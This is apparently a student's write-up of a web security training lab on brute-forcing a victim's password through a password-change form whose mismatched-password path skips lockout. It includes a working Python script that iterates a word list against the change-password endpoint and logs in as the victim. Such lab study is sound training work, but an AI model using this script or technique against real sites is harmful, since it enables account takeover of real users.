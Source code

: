 This lab's password change functionality makes it vulnerable to brute-force attacks. To solve the lab, use the list of candidate passwords to brute-force Carlos's account and access his "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- Candidate passwords

---

**Goal:** Brute-force Carlos's password in the password change functionality.

**Analysis:** The app will lock you out, for one minute, if you try changing the password but use the incorrect one. If you try to change the password but use for the new password fields `password1` and then `password2` it will tell you that the `Current password is incorrect`, but it will **NOT** lock you out. 

It does not have session protection to check if the user is the same user who requested the password reset.

To summarise, if you have non matching passwords in the new password fields, it wont lock you out of the app, even if you input an incorrect current password. This should allow me to brute-force the current password. 

_Error info:_ `New passwords do not match.`
- I can use the error info to grep out the matching error message, so that finding the correct password will be easier to see in the burp intruder window. 

_If i use a incorrect current password:_ `Current password is incorrect`

---

![[Pasted image 20240827084603.png]]

![[Pasted image 20240827084808.png]]

One payload `2000` comes back with the response `New passwords do not match`, i then modify the request and match the new password fields, which changes the password for user Carlos. I should now be able to login and complete the lab.

![[Pasted image 20240827084951.png]]

---

**Completed:** _08:48 2024-08-27_

**Extra:** 

```python
#!/usr/bin/python3

import sys
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def access_carlos_account(s, url):
	
	# Log into Wiener's account 
	print('(+) Logging in to wiener account...')
	login_url = url + "/login"
	login_data = {"username": "wiener", "password": "peter"}
	r = s.post(login_url, data=login_data, verify=False, proxies=proxies)

	# Brute-force Carlos's account
	print('(+) Brute-forcing Carlos account...')
	change_pass_url = url + "/my-account/change-password"
	
	with open('passwords.txt', 'r') as f:
		lines = f.readlines()
		
	for pwd in lines:
		pwd = pwd.strip('\n')
		change_pass_data = {"username": "carlos", "current-password": pwd, "new-password-1": "test1", "new-password-2": "test2"}
		r = s.post(change_pass_url, data=change_pass_data, verify=False, proxies=proxies)
		if "New Passwords do not match" in r.text:
			carlos_pwd = pwd
			print("(+) Password found: " + carlos_pwd)
			break
			
	# Login
	if carlos_pwd:
		login_data = {"username": "carlos", "password": carlos_pwd}
		r = requests.post(login_url, data=login_data, verify=False, proxies=proxies)
		if 'Log out' in r.text:
			print('(+) Successfully logged in as Carlos')
		else:
			print('(-) Exploit failed.')
			sys.exit(-1)
	else:
		print('(-) Could not find the password.')
	
			
def main():
	if len(sys.argv) != 2:
		print('(+) Usage: %s <url>' % sys.argv[0])
		print('(+) Example: %s www.example.com' % sys.argv[0])
		sys.exit(-1)
		
	s = requests.Session()
	url = sys.argv[1]
	access_carlos_account(s, url)

if __name__ == '__main__':
	main()
```


